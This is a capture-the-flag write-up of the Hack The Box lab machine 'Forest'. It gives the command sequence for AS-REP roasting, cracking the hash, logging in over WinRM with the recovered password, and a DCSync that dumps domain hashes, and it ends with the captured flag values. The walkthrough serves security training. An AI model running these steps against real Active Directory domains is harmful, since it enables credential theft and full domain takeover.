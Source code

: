 # HTB: Forest

## Engagement Overview

**Target:** Forest
**Box IP:** 10.10.10.161
**Local IP:** 10.10.14.2
**Date:** 2025-07-15

---

### Objectives

- Enumerate Active Directory/Exchange environment and identify weak Kerberos/LDAP configurations.  
- Obtain an AS-REP roastable TGT, crack offline to recover service account credentials.  
- Use service account to escalate (Exchange abuse → DCSync) and obtain Domain Administrator.  
- Capture `user.txt` and domain `root.txt`.

---

## Service Enumeration

```bash
nmap -p- -sC -sV -oA forest-scan 10.10.10.161
```

**Open ports (condensed):**
- 53/tcp (DNS), 88/tcp (Kerberos), 135/tcp (MS RPC), 139/tcp (NetBIOS), 389/tcp (LDAP), 445/tcp (SMB), 464/tcp (kpasswd), 593/tcp (RPC/HTTP), 636/tcp (LDAPS), 3268/tcp (GC LDAP), 3269/tcp (GC LDAPS)

**Domain info discovered:**
- Domain: `htb.local`
- Hostname/FQDN: `FOREST.htb.local`  
- OS: Windows Server 2016 Standard

Notes: anonymous LDAP binds allowed; message signing required on SMB; Kerberos pre-auth disabled for target service account (AS-REP roastable).

---

## Initial Access

### AS-REP Roasting (Kerberos pre-auth disabled)

```bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
# output: AS-REP roastable hash for svc-alfresco
```

### Crack hash offline

```bash
hashcat -m 18200 -a 0 hash.txt wordlist.txt
# recovered: svc-alfresco:s3rvice
```

### Authenticate & foothold

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
# authenticated as svc-alfresco
```

---

## Privilege Escalation

### Exchange/AD abuse → DCSync
- `svc-alfresco` is member of **Account Operators** and has permissions to modify Exchange groups (WriteDACL-like permissions discovered).  
- Abused Exchange permissions to add service account to privileged groups and escalate permissions.  
- Performed DCSync using `impacket-secretsdump` to extract NTLM hashes including Administrator.

```bash
secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
# dumped hashes including Administrator NTLM
```

**Result:** Domain Administrator compromise achieved; domain credentials and hashes extracted.

---

## House Cleaning / Post-Exploitation

- No persistent backdoors created; tooling executed in-memory when possible.  
- Removed any temporary artifacts created during engagement.

**Flags captured:**  
- `user.txt`: `58fc66dc0f2af05eb1a1751186720d85`  
- `root.txt` (domain/root): `c0a4c2b3bd3faf59b20d049d108d7613`

---

## Tools Utilized
- nmap, ldapsearch  
- impacket (GetNPUsers, secretsdump)  
- hashcat  
- evil-winrm  
- ropnop/windapsearch (auxiliary AD tooling)  

---

## Key Takeaways
- Check for Kerberos pre-auth disabled accounts early (AS-REP roasting).  
- Exchange permissions are powerful: misconfigured Exchange delegation can lead to DCSync and full domain compromise.  
- AD enumeration (LDAP/GC) and group mapping are essential on Windows domain boxes.  
